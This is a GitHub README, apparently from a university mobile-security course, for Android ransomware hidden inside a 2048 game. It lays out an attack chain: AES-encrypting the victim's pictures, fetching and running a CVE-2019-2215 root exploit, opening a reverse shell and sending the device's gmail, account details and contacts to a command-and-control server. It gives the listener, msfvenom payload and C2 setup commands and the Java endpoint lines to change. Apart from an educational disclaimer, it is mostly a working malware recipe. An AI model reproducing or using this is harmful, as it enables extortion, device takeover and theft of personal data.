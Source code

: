 # Rootsmart 2.0 w/ cve-2019-2215 + Ransomware

### Disclaimer
This project is solely for educational purposes. This project utilise code from [rkshrksh/2048-Game](https://github.com/rkshrksh/2048-Game) and [kangtastic/cve-2019-2215](https://github.com/kangtastic/cve-2019-2215).

---

## Project Description

This project is part of Singapore Institute of Technology Mobile Security module. The project was done within 6 weeks and the aim of the project was to develop a malicious android application. By doing so, it helped us to learn how security mechanisms are implemented in an Android OS and how we can exercise OWASP Mobile Top 10:2017 M8 - Code Tampering.

The project is proof of concept to showcase a custom written ransomware that utilises AES encryption, weaponising cve-2019-2215, and also exfiltrating data from the infected device.

It is tested on Android 10 and Google Pixel 2 XL.

```
├── 2048-Game 					// Android Project Folder
├── 2048-keystore				// Test-Keystore
├── cve-2019-2215				// Modified cve-2019-2215
│	└── cve-2019-2215.c
├── dropper_server				// Dropper server directory 
│	├── cve-2019-2215			// shells.zip content before zipping
│	├── dropper_server.py		// Dropper server program
│	├── exfiltrated_data.log
│	├── masterkeys.txt
│	├── ncat.exe 				// Netcat windows binary - for Reverse shell listener
│	├── requirements.txt
│	├── shells.zip  			// shells.zip that is hosted in root of dropper server
│	└── venv
└── test_images    				// test_images for easy adb push <image.ext> /sdcard/Pictures
```


##### Attack Vector:

1. Install, run the application and grant permissions
2. Ransomware will AES encrypt all files in /sdcard/Pictures
3. Each file will be encrypted with a random generated key
4. Keys will be stored in /sdcard/keys.json where each key:value pair is filepath:key
5. GET HTTP to C2 server /get_mk to retrieve MasterKey and VictimID in response body
6. MasterKey will encrypt keys.json, VictimID will be stored in /sdcard/victimID.txt
7. The application will download shells.zip and unzip the contents
8. Execute cve-2019-2215 binary from the unzipped contents
9. A root shell process will be spawn and will run install.sh from the unzipped contents
10. Install.sh will execute rs.elf from the unzipped contents to send a reverse connection to attack server
11. The appliation will exfiltrate the device's gmail, user account information, and contacts.


##### Demonstration
https://user-images.githubusercontent.com/56181271/155875246-092a3954-2f42-42b7-a00e-581a1bbf0546.mp4

---

## C2 (Command & Control) - Setup
For this test, ensure that the victim phone and the C2 server are in the same subnet (otherwise host C2 in public internet). There are 3 endpoints for the C2 server that can be found in dropper/dropper_server.py:

1. /process_command - GET to download shells.zip and run the cve-2019-2215 root exploit
2. /get_mk - GET to obtain the victimID:masterkey key-value pair to encrypt /sdcard/keys.json
3. /postData - POST exfiltrated gmail, contacts, account information

##### Reverse Shell Server
```bash
nc -lvnp 1337 # Ideally this should be the same IP as the dropper server
```

##### Dropper Server
```bash
# Generate rs.elf payload
msfvenom -p linux/aarch64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> -f elf > rs.elf

# Better to run flask on Windows if WSL don't port forward localhost traffic to Windows Host
cd dropper
python3 -m venv venv # Create venv

# Activate venv
. venv/bin/activate # Linux
venv\Scripts\activate.bat # Windows
pip install -r requirements.txt --upgrade pip # Make sure host shell is root/Administrator

# Run C2 server
python3 dropper_server.py # WSL
python dropper_server.py # Windows
```

shells.zip in /dropper
1. Go to dropper/cve-2019-2215 folder
2. After creating rs.elf, zip rs.elf + cve-2019-2215, install.sh
3. Rename zip file to shells.zip
4. Move shells.zip to /dropper

## Modify the following before compiling APK

Java Classes
```java
// File : 2048-Game/app/src/main/java/aarkay/a2048game/Temproot.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/process_command"; // Line 19

// File : 2048-Game/app/src/main/java/aarkay/a2048game/Encrypt.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/get_mk"; // Line 45

// File : 2048-Game/app/src/main/java/aarkay/a2048game/PostData.java
// Change IP and port according to dropper server IP and port
String urlString = "http://192.168.157.73:8080/postData"; // Line 32
```





